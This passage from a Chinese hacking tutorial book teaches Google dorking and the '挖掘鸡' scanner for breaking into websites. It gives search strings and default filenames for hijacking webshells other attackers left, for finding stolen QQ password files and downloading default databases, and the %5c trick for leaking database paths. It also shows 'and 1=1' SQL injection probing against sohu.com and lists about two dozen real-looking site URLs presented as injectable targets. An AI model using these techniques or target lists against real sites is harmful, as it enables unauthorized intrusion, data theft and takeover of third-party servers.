

图 1-116 JSP 论坛被成功发布

现在是不是也觉得搭建一个 JSP 系统也很简单呢？其他系统的安装方法也大多数如此，相信在以后分析 JSP 系统的过程中，会带来很大的帮助。

### 总结

本章详细地为大家介绍了 ASP、PHP、JSP 这三种环境的搭建，并给出了一个发布网站的例子。学会了这个，对以后分析系统漏洞有很大的帮助，因为很多系统在分析过程中要不断地测试。虽然很多系统网上也有网站使用，不过却有很多限制条件，比如进不了后台等等情况。而在本地搭建的网站，可以任意地被分析，包括后台等任意地方。这为分析脚本程序漏洞提供了一个平台基础。本章比较重要，如果有什么不懂的地方，可以多看几遍书，或者到网上去查资料。

虽然这里已经搭建好了 ASP、PHP、JSP 的环境，但是如果要把网站发布到网上去，仅仅搭建好还是远远不够，还有很多地方要配置。主要是两个目的：一是为了性能，二是为了安全。一个好的配置可以使网站的性能和安全性得到非常大的提高。因为我们这里是为了分析系统代码漏洞，所以没有对服务器的性能和安全考虑太多，所以对于服务器的其他配置并未深入介绍。如果对服务器配置方面感兴趣，可以参考 http://www.qqread.com/z/server/seting/index.html 中对服务器配置的文章，里面对各种服务器都做了深入的介绍。

- 从本章你可以学到如下几点：
- 1. Google Hack 技术
- 2. 'or'='or' 与暴库漏洞利用
- 3. 跨站漏洞攻击
- 4. 工具注入攻击
- 5. 手工注入攻击
- 6. 如何获取 Webshell 及提升权限
- 7. 其他脚本相关黑客技术

## 第二章 常规脚本漏洞演练

上一章给大家讲解了 ASP、PHP、JSP 的环境搭配，有了这些基础之后我们就可以在自己的电脑上搭建网站了。这为以后进行攻击及代码分析提供了比较方便的道路，特别是对于那些不能够上网的朋友来说，更加如此。但是，如果可以上网的话，最好还是用网上的网站来做试验，毕竟那是最好的战场，会出现各种不可预料的情况，可以更加提高我们的能力。不过前提必须是不破坏，不做任何坏事，就相当于给人家做免费的安全测试，那才是我们的黑客精神嘛！

本章给大家介绍在脚本环境下的主要漏洞攻击技术，本章是以动手为主，理论比较少。特别适合对于一些对脚本没有任何认识、也从来没有学过脚本漏洞攻击的朋友，更加是一个入门和学习的机会。相信通过本章，你们一定可以快速掌握大多数的脚本攻击技术。如果你已经对脚本攻击技术很熟悉了，那本章也会为你来一个总结，让知识系统化。

### 2.1 Google Hack 技术大演练

Google Hack 技术是现在最火爆的黑客技术之一。其原理很简单，就是利用搜索引擎强大的搜索能力，来查找一些存在漏洞的网站。要利用 Google 来查找网站的漏洞，自然要学会 Google 这个搜索引擎的语法了。下面先给大家讲解一下 Google 的语法，然后教大家怎么利用它来入侵。这项技术在我们的撒网式攻击技术中是最好的方法。

#### （1）介绍

①、google 介绍：Google 成立于 1997 年，目前已经成为全球第一搜索公司。Google 数据库存有 42.8 亿个 Web 文件；检索网页数量达 24 亿；支持多达 132 种语言；具有 15000 多台服务器，200 多条 T3 级宽带；通过采用 PageRank 技术能够提供准确率极高的搜索结果；智能化的“手气不错”提供最符合要求的网站；“网页快照”可以从 Google 服务器里直接取出缓存的网页；独到的图片搜索功能；强大的新闻组搜索功能；提供二进制文件搜索功能，如 PDF、doc、swf 等等；容量超大的 Gmail 服务；强大的桌面搜索；高清晰的 google 卫星地图；提供各种语言之间的翻译。

②、google 常见功能：

- A. 汉语拼音输入检索：输入 changsha（如图 2-1）  
  注：拼音之间不可以有间隔



图 2-1 拼音检索长沙

- B. 翻译功能：输入 fy 音乐（如图 2-2）  
  注：翻译可直接写成 fy



图 2-2 翻译音乐

- C. 天气查询：输入 changsha tq（如图 2-3）  
  注：天气可直接写成 tq



图 2-3 拼音查看长沙天气

- D. 股票查询：输入 中国石化 gp（如图 2-4）  
  注：股票可直接写成 gp


图 2-4 查看中国石化股票

- E. 邮政编码和区号查询：输入 qh 长沙（如图 2-5）  
  注：区号可直接写成 qh



图 2-5 查看长沙区号

- F. 手机归属地查询：输入 13875876817（如图 2-6）  
  注：直接输入号码



图 2-6 查询手机归属地

- G. 购物查询：输入 potato（土豆）（如图 2-7）  
  注：URL：froogle.google.com



图 2-7 选购土豆，有其价格、商店等信息

- H. 条形码查询
- I. 飞机航班查询
- J. 检索工具栏
- K. google 新闻
- L. 网站排名

#### （2）语法

利用 Google 的语法我们可以做很多事情。2006 年的时候网络上出现了几件大事，比较出名的有“魔兽铜须事件”，很多黑客就是利用 Google Hack 技术找到了铜须的 QQ 号码、MSN、邮件地址等个人信息。目前黑客利用 Google Hack 技术来进行入侵或资料收集的时候主要有以下几点：

- 1. 在入侵之前，可以利用 Google Hack 技术进行信息收集，典型的有比如查找网站后台及网站的拓扑结构等等。
- 2. 当发现或者公布某个漏洞之后，利用 Google Hack 技术大量收集存在这个漏洞的主机或网站，典型的有许愿版暴库漏洞，利用 Google Hack 技术找到许愿版之后就暴库，最后得到 Webshell。
- 3. 边入侵边搜索，因为我们的入侵过程是一个动态的，我们必须根据不同的情况来区分各种入侵的方法和技巧，而 Google Hack 技术可以非常好地完成这项任务。
- 4. 直接搜索网站的默认数据库文件，这个我们可以结合挖掘鸡这类工具来进行入侵和渗透，那么效果会更加明显。
- 5. 搜索别人留下来的后门，或者比如通过 WEB 方式盗的 QQ 号码等记录文件。和上面一样，也可以结合挖掘鸡来渗透。挖掘鸡这个工具我会在后面详细讲解的。

踩点在入侵当中起着决定性的作用，也是决定入侵成败的最重要因素。它占据了整个入侵过程中 90% 以上的时间。FootPrinting 要收集的信息一般主要有十个方面（以网站为例）：

- A. 网站注册信息
- B. 网管资料
- C. 共享资料
- D. 端口信息
- E. FTP 资源
- F. 网站拓扑结构
- G. 网站 URL 地址结构
- H. 网站系统版本
- I. 后台地址
- J. 弱口令

下面还给大家提供 Google 的另外一些入口地址，对于特定的搜索很有好处哦，可以提高很多效率。

| 地址 | 说明 |
|---|---|
| http://www.google.com/microsoft | 微软风格入口 |
| http://www.google.com/mac | MAC 风格入口 |
| http://www.google.com/bsd | BSD 风格入口 |
| http://www.google.com/intl/xx-elmer | 宗教风格入口 |
| http://www.google.com/intl/xx-hacker | 黑客专用入口 |
| http://www.google.com/custom?domains=域名 | 站内搜索地址 |
| http://www.google.com/custom?hl=zh-CN | 中文黑客专用信息和资料搜索地址 |
| http://www.google.com/custom?hl=en | 英文黑客专用信息和资料搜索地址 |
| http://www.mytianwang.cn/ | 国内 FTP 文件搜索引擎 |

下面开始讲解我们的 Google 语法，google hack 技术说白了就是结合 google 的语法和一些关键字来对网站进行渗透的。

```
intext:关键字。
把网页正文中某个关键字作为搜索条件，然后搜索全世界网页正文中含有这些关键字的网页，allintext:关键字。功能相同。比如搜索网页登录口，intext:验证码 4800，如图 2-8 和图 2-9 所示。
```



图 2-8 查找网页中含有“验证码 4800”关键字的网站，目的是找到用户登录口


图 2-9 找到登录口

intitle:关键字。

把网页标题中某个关键字作为搜索条件，然后搜索全世界网页标题中含有这些关键字的网页，allintitle:关键字。功能相同。比如搜索网站后台，intitle:后台登录，如图 2-10 和图 2-11 所示。


图 2-10 搜索网页标题为“后台登录”的网页


图 2-11 查找到的后台登录口

cache:关键字。

搜索含有关键字内容的 cache。比如搜索北京大学网站服务器中缓存的内容，cache:pku.edu.cn，结果如图 2-12 和图 2-13 所示。


图 2-12 检索到北京大学的缓存


图 2-13 就是北京大学缓存里的信息

define:关键字。

搜索关键字的定义。比如查找 html 的定义，如图 2-14 所示。


图 2-14 html 的定义

filetype:文件名.后缀名。

搜索特定的文件。比如我要搜索信息安全方面的论文，我们输入“信息安全论文 filetype:doc”就可以找到了，如图 2-15 所示。

图 2-15　搜索到的“信息安全论文”

##### info:关键字

这个语法用于搜索指定站点的一些基本信息。比如搜索北京大学网站的一些信息，如图 2-16 所示。

图 2-16　北京大学网站的一些信息

##### inurl:关键字

搜索含有关键字的 URL 地址。这个语法非常重要，使用也是最为频繁。我们还可以使用 allinurl 来更加精确地定位 URL 地址。比如搜索含有 movie 的 URL 地址，输入“inurl:movie”即可，那么找出来的大部分是电影网站，如图 2-17 所示。

图 2-17　搜索含有“movie”的 URL

##### link:关键字

查找与关键字做了链接的 URL 地址，利用它我们可能搜索到一些敏感信息。

##### site:域名

返回域名中所有的 URL 地址，它可以探测网站的拓扑结构，也是非常重要、使用非常频繁的语法。比如搜索北京大学所有学院的 URL 地址，我们输入“学院 site:pku.edu.cn”就可以搜索到它所有的学院，如图 2-18 所示。

图 2-18　北京大学所有的学院

##### related:URL

搜索与指定 URL 相关的页面。比如搜索与北京大学相关的网页，我们输入关键字“related:pku.edu.cn”即可看到，如图 2-19 所示。

图 2-19　搜索与北京大学相关页面

- stocks: 搜索有关一家公司股票市场信息
- insubject: 搜索 Google 组的标题行
- msgid: 搜索识别新闻组帖子 的 Google 组信息标识符和字符串
- group: 搜索 Google 组搜索词汇帖子的题目
- author: 搜索新闻组帖子的作者
- bphonebook: 仅搜索商业电话号码簿
- rphonebook: 仅搜索住宅电话号码簿
- phonebook: 搜索商业或者住宅电话号码簿
- daterange: 搜索某个日期范围内 Google 做索引的网页
- inanchor: 搜索一个 HTML 标记中的一个链接的文本表现形式

不过需要注意以下几点：

google 搜索多个关键字时之间用空格。空格表示逻辑与操作。

google 中 - 表示逻辑非操作。如 A-C 表示搜索有 A 但没 C 的网页。  
google 中 OR 表示逻辑或。如 A OR B 表示搜索含有 A 的网页、B 的网页和同时含 A 和 B 的网页。  
google 中精确搜索用双引号，比如我们搜索脚本黑客和“脚本黑客”，两者之间的差别就是一个双引号，如图 2-20 所示，显示了它们搜索结果的差别。

图 2-20　显示了有引号与无引号之间的差别

google 中的通配符：* 表示一连串字符，? 代表单个字符。含有通配符的关键字要用引号。  
google 对英文关键字的大小写不敏感。  
google 对出现频率极高的英文单词做忽略处理，如 com、i、www、http 等。如果要对忽略的关键字进行强制搜索，则需要在该关键字前加上明文的“+”号。  
google 大部分常用英文符号（如问号、句号、逗号等）无法成为搜索关键字，加强制也不行。  
还有一点就是，可能大家都知道 BAIDU 的网页快照，其实 Google 也有这个功能，它的 URL 地址是 http://www.googlesyndicatedsearch.com/u/berkeley，比如我们要快照北京大学，那么输入北京大学（pku.edu.cn）的网址就可以了，如图 2-21 所示。

图 2-21　北京大学的快照

以上这些就是 google 的一些基本语法，要对某个站点进行渗透，就要利用上面的语法来构造出一些精美的语句，从而找出站点的一些敏感信息。下面我们就来简单体验一下 Google Hack 技术给我们带来的方便吧。

#### （3）入侵

### ① 渔翁得利——查找别人留下的 Webshell

很多人在入侵网站得到 Webshell 后，并没有把网页木马的一些关键字去掉，而是保留了原样。这样我们就可以利用 Google 强大的搜索能力，利用木马的关键字找出那些 Webshell 来。比如很多木马都有“绝对的路径、输入保存的路径、输入文件的内容”等关键字。这个关键字的木马文件名默认是 diy.asp。那么我们就以上面的内容为关键字构造一个搜索条件吧，搜索内容为：绝对的路径 输入保存的路径 输入文件的内容 inurl:diy.asp。搜索的结果如图 2-22 所示，随便打开一个就可以得到一个 webshell 了，如图 2-23 所示。

图 2-22　查找 webshell  
图 2-23　得到的 webshell

其实这类攻击就是利用一些默认的信息去查找，至于其他木马的关键字大家可以自己去收集，然后自己去构造，这样可能会得到意外的效果哦！

##### ② 搜索存在注入漏洞的站点

对于以前没有玩过注入或者玩得不熟悉的朋友，应该都有一些困惑，就是很难找到一个网站的注入漏洞。其实这里我们完全可以结合 Google Hack 技术来达到批量注入的效果。这里注入我们还需要一个注入工具，对于批量搜索注入方面我觉得还是“啊 D”这个工具配合得比较好。比如我们打开 google，在里面搜索 URL 地址中含有 asp?id= 关键字的 URL，如图 2-24 所示，然后打开啊 D 把图 2-24 中 google 的搜索地址 http://www.google.com/search?hl=zh-CN&newwindow=1&q=inurl%3Aasp%3Fid%3D&lr= 填入到扫描注入点中的检测网址，然后点击打开网页。最后点击 google 页面中的下一页按钮，那么这样就可以找到存在注入漏洞的网站了，如图 2-25 所示。

图 2-24　搜索 URL 中含有 asp?id= 的网址  
图 2-25　批量搜索到存在注入的网站

##### ③ 查找特定网站的注入漏洞

上面给大家演示了如何批量搜索注入漏洞，同样我们可以利用 Google Hack 技术来查找特定网站的漏洞。比如我们要渗透搜狐网站，找到搜狐网站的注入漏洞。上面我们找的是 asp 网站的注入漏洞，下面我们就来找 PHP 网站的漏洞。我们在 google 中输入 site:sohu.com inurl:php?id= 后，就可以看到 sohu 网站所有存在 php?id= 的网站了，如图 2-26 所示。

图 2-26　搜索 sohu 中的 php 页面

查到了这些 php 页面后，我们就要自己去一个个判断是否存在注入漏洞了。判断注入漏洞的方法很简单，就是在网址的最后面加上两段代码：一为 and 1=1，二为 and 1=2。如果加上了上面的代码后返回的 and 1=1 和 and 1=2 页面不同，那么就说明存在注入漏洞了。至于为什么这样就可以判断是否存在注入漏洞，在后面我会给大家详细说明。这里还需要注意的一点是 and 和 URL 的最后面应该有一个空格，比如 http://www.sohu.com/attric.php?id=12 and 1=1，这里大家要特别注意：id=12 与 and 之间存在一个空格，而空格在输入我们的 URL 地址栏内后就会被编码成 %20，也就是说 %20 在 URL 地址栏内就代表一个空格。通过我对搜索出来页面的查找，终于找到了一个存在注入漏洞的地方了，图 2-27 和图 2-28 就是判断其是否存在注入漏洞。

图 2-27　加上 and 1=1 之后页面返回正常  
图 2-28　加上 and 1=2 之后页面返回不正常，由此说明存在漏洞

### ④ 挖掘鸡的运用

前面我就两次提到了挖掘鸡这个工具，对于这个本人是非常喜欢的。利用 google hack 的原理及技术可以为我们得到很多想要的东西，我曾经就发表过一篇关于挖掘鸡的文章，下面我就引用我写的那篇文章。

这篇文章主要是介绍一下挖掘鸡的运用。在撒网式攻击当中我最喜欢的就是挖掘鸡。它就是利用关键字，然后在网络当中查找出符合这些关键字的 URL 地址。其原理和 google hacking 相类似，都是利用关键字查找有漏洞的网站，但是挖掘机会自动提取出那些 URL 地址来，比用 google hacking 更加方便，而且还可以找出一些搜索引擎找不到的 URL 地址。

挖掘鸡主要是检测以缺省路径存在的孤立页面，这样的页面一般没有和其他页面进行连接，所以在搜索引擎里一般很难找到。目前挖掘机已经发展到了 2.5 版本。只要攻击者构造一些精美的语句出来，就可以大规模地入侵网站，它的页面如图 2-29 所示。这个工具已经在光盘中有收录了，这个工具的用法在帮助当中都有，这里不详细讲解了。今天主要讲运用它来入侵。

图 2-29　挖掘鸡的页面

盗 QQ：我们现在盗 QQ 的软件一般都支持两种发送密码的体制（如阿拉 QQ 大盗），一种通过邮箱，另一种通过 WEB。很多人在用 WEB 接收 QQ 密码的时候，喜欢把接收 QQ 的文件名设为 QQ.txt 或者 qq.txt。所以查找一些含有 QQ.txt 或者 qq.txt 的 URL 地址，那么很有可能找出别人辛辛苦苦的密码啦。

- 挖掘内容如下：
- 文件名：qq.txt 和 QQ.txt
- 目录组：/qq.txt 和 /QQ.txt
- 特征符：password
- 关键字：欢迎 欢迎光临 个人 Welcome

等了几分钟以后就找到了一些这样的网页了。这些都是别人盗 QQ 时候生成的文件，如图 2-30 所示。

图 2-30　盗取的 QQ 号码

**下载数据库：** 很多网站没有把默认的数据库地址改掉，比如 DVBBS 的默认数据库是：dvbbs7.mdb。那么有了这些默认数据库名，我们就可以查找出没有改掉默认数据库的网站地址了。还是用 DVBBS 来举例吧，挖掘内容如下：

- 文件名：dvbbs6.mdb、dvbbs7.mdb
- 目录组：/data、/databackup
- 关键字：dvbbs 动网论坛 欢迎

存在这样漏洞的网站非常多，请看图 2-31。大部分都可以下载，如图 2-32。

图 2-31　挖掘到的默认数据库  
图 2-32　可以下载数据库

**暴库漏洞：** 暴库一般是加上 `%5c` 或者 `inc` 等一些符号，让系统在调用数据库时出现错误，然后返回的数据中提示调用数据库出现错误，错误里面一般都含有数据库的绝对路径。前不久许愿版出现了暴库漏洞，那就先用挖掘鸡把许愿版找出来。

- 文件名：`wish.asp`
- 目录组：`/wish`
- 关键字：许愿版

找出了一些许愿版的网站，如图 2-33，直接访问暴出它的数据库，如图 2-34。对于暴库我会在后面详细讲解，这里大家只需要知道，我们只需要在 URL 地址的最后把“/”改成 `%5c` 就可以暴库了。

图 2-33　挖掘到的许愿版  
图 2-34　通过暴库得到数据库地址

## 查找 webshell 1：

目前有很多 webshell 都有自己的名字和登录密码。但是很多人在上传木马的时候并没有改默认的名字和密码，所以就可以利用这些信息来找出这些 webshell，登录后改掉密码，那么就不费力气地得到了一个服务器，很爽吧。

- wei.asp
- 2006.asp
- lcx.asp
- LP.asp
- newhjzf.asp
- newasp.asp
- 2005red.asp
- 2005.asp
- 2005Gray.asp
- phpspy_2006.php

目录组：/  
关键字：登录 Login 密码（不同的木马有不同的关键字）

等我喝完一杯可乐回来以后，就找到好多了，如图 2-35 所示。

图 2-35　搜索到的 webshell 地址

我们随便打开一个看看，如图 2-36 所示，登录看看，如图 2-37 所示。

图 2-36　我们找到的 webshell  
图 2-37　登录 webshell 后的情况

###### 查找登录口、后台：

- 文件名：login.asp、admin.asp、denglu.asp、manager.asp、guanli.asp
- 目录组：/
- 关键字：管理 登录 后台

可以轻易找出网站的后台地址，而且有的网站居然把密码都列举出来了，如图 2-38 所示。

其实就算没有密码，还是可以利用默认密码、后台过滤不严格等漏洞来登录后台的。

图 2-38　查找到的后台，并且自己提供了密码

###### 查找注入漏洞：

要查找注入漏洞，首先要知道哪个系统有注入漏洞，然后通过独一无二的关键字进行挖掘。例如下面常见的注入：

- 文件名：asp?id=、asp?newsid=、asp?page=、asp?Article= 等等
- 目录组：/
- 关键词：自己构造，只要网页正文或者标题上有的就可以了。

一下就挖掘出了很多，如图 2-39 所示，随便打开一个就发现了漏洞，如图 2-40 所示。

```text
http://www.ctrlcar.com/movie.asp?id=171
http://duoduhu.com/movie.asp?id=1383
http://www.xbds.com/movie.asp?id=587
http://wori.xqtv.cn/movie.asp?id=681
http://video.xcsx.cn/movie.asp?id=38
http://movie.bolove.com/movie.asp?id=1338
http://www.pjpy.com/vod/movie.asp?id=493
http://www.deeeh.com/movie.asp?id=862
http://movie.px86.com/movie.asp?id=492
http://www.longnan.com.cn/vod/movie.asp?id=27
http://218.22.214.116/movie/movie.asp?id=242
http://218.23.23.67:70/movie/movie.asp?id=439
http://jx.hldsl.cn/movie.asp?id=598
http://www.xcqc.net/movie/movie.asp?id=259
http://www.yhcity.com/movie.asp?id=172
http://www.jndafeng.com/index/movie.asp?id=61
http://www.klzd.com/movie.asp?id=421
http://qqdir.com/vod/movie.asp?id=1922
http://www.zp68.com/movie.asp?id=862
http://www.rongchang.net/yingyin/movie.asp?id=...
http://218.12.149.182/movie/movie.asp?id=620
http://222.34.76.24/movie.asp?id=1234
http://www.sdcjxx.com/movie/movie.asp?id=48
http://dy.saj.cn/movie.asp?id=130
```

图 2-39　查找到的注入地址  
图 2-40　判断出网站存在注入漏洞

其实还有很多这样相似的漏洞，比如上传漏洞等等，我们都可以利用它来找。其他的漏洞攻击方法也都是大同小异，方法和原理都是一样的。

其实挖掘鸡这个工具是很简单的，正是因为它简单，所以才给了我们很大的发挥空间，和 google hacking 是一样的，原理很简单，但是技巧性很大。它并不像其他工具一样，不管你水平怎么样，只要知道怎么用结果都是一样。本人不喜欢那样机械的工具，根本很难发挥出一个人的想象力。挖掘鸡就不一样了，它可以充分发挥出一个人的想象力和水平。要用好挖掘鸡这样的工具，最好是要关注最新的漏洞报告，根据漏洞报告来入侵的效果很好，因为在漏洞刚刚发布出来的时候，很多网站还没有打上补丁，这个时候玩得就很顺利。上面的许愿版漏洞就是如此，我一发现许愿版出现漏洞就马上用它来入侵，结果得到了很多 webshell。

挖掘鸡的缺点就是只能够挖掘没有链接关系的页面，一定程度上限制了它对网站的渗透深度，但是这同时也是它的优点之一。如果要查找没有链接关系的页面，首选就是挖掘鸡。虽然 google hacking 也可以达到这个效果，可是挖掘鸡对 URL 地址进行了整理。很多情况下要把挖掘鸡同 google hacking 结合起来用，互相取长补短，才可以发挥出最大的作用。要用好挖掘鸡不仅要关注最新的漏洞报告，还要能够构造出比较经典的语句，同时结合 google hacking 来对网站进行渗透，那么我们的肉鸡就会大大增加了。

##### ⑤ 目录浏览漏洞

目录浏览漏洞其实就是服务器没有配置好而导致的，结果是非常多的敏感信息被泄露。我发表过一篇关于目录浏览与 google hack 的文章，下面我就以我的文章来说明这个漏洞的利用方法。

###### 目录浏览与 Google Hack

某日，十分无聊地坐在电脑前浏览黑客杂志，在看到暴库漏洞时，我突然想起了 inc/conn.asp 这种攻击方法还从来没有成功过（这种方法指使用搜索引擎搜索一些敏感关键字获取网站数据，conn.asp 往往是 ASP 程序里包含数据库连接信息的文件）。既然兴趣来了就开工。直接在 Google 里输入“inurl:/inc/conn.asp”，发现根本没有这样的网站，如图 2-41 所示。后来输入“inurl:conn.asp”，发现找到了一个暴库漏洞的网站，如图 2-42 所示。

图 2-41　输入 inurl:/inc/conn.asp 没有找到页面


图 2-42　搜索含有 conn.asp 的页面

可是我找了上千个网页也只有这一个网站，后来编写了很多类似 Google 关键字，可效果都是差不多。经过一个下午的思考，事情终于有了新的转机，攻击的方向也随之发生了变化，不过效果却相当惊人。

下午顶着两节课没上的危险，一直在思考着。突然我的灵感来了，无意中构造了“inurl:/inc+conn.asp”这个关键字，发现它居然找出了很多网站的漏洞，如图 2-43 所示。来看看具体的网站，如图 2-44 所示，再看看 conndb.asp 这个文件的内容，如图 2-45 所示。


图 2-43　搜索 URL 中含有 inc 及页面中含有 conn.asp 的页面


图 2-44　搜索出来的网站信息


图 2-45　网站 conn.asp 文件的数据库地址

一个网站就这样轻易地被攻破了，实在是吓了我一大跳。后来我仔细地查阅了每一个网站，发现它们都有一个共同点，就是都含有“to parent directory”这句话。那么我们就查找“to parent directory”看看，如图 2-46 所示。


图 2-46　存在 to parent directory 的页面

居然有 229000000 项符合“to parent directory”的查询结果，太令我兴奋了。经过和老师一个中午的激烈讨论，终于从他那里知道原来是服务器没有配置好而出现的安全问题，问题就出在服务器的“目录浏览”上，不仅 IIS 和 Apache 存在这样的问题，而且大部分服务器都存在这样的类似问题。

通过我上面的思考与分析得出的结论是：网站可以被目录浏览，而又可以搜索数据库链接文件，从而导致了数据库物理路径泄露。现在不仅仅要把网站数据库地址找出来，还要把所有存在目录浏览的特定网站找出来。那么就以存在目录浏览的网站为基础，再去它们网站上查找敏感文件，这样不就可以得到肉鸡了吗？这需要编写一些 Google Hacking 关键字，经过半个多月的整理与实践，今天把关键字写出来与各位朋友一起分享。

